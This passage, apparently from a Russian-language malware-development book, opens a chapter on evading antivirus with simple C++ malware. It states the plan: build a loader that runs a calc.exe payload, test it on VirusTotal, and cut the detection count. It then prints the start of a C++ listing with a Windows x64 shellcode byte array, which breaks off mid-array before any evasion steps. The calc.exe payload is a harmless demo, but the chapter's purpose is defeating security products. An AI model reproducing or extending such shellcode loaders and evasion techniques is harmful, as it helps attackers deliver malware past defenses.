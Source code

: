 \newpage
\subsection{54. Обход антивирусов для простого вредоносного ПО на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![Обход AV 1](./images/2/2021-09-16_11-09.png){width="80%"}    

Обход антивирусных решений всегда был сложной задачей для специалистов red team и пентестеров, особенно для тех, кто разрабатывает вредоносное ПО.    

В этом руководстве мы напишем простое вредоносное ПО на C++, которое запустит наш payload: процесс `calc.exe`. Затем мы проверим через VirusTotal, сколько антивирусных движков обнаружат наш вредоносный файл, после чего попробуем уменьшить их количество.    

Начнём с простого кода нашего вредоносного ПО на C++:    

```cpp
/*
cpp implementation malware example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
```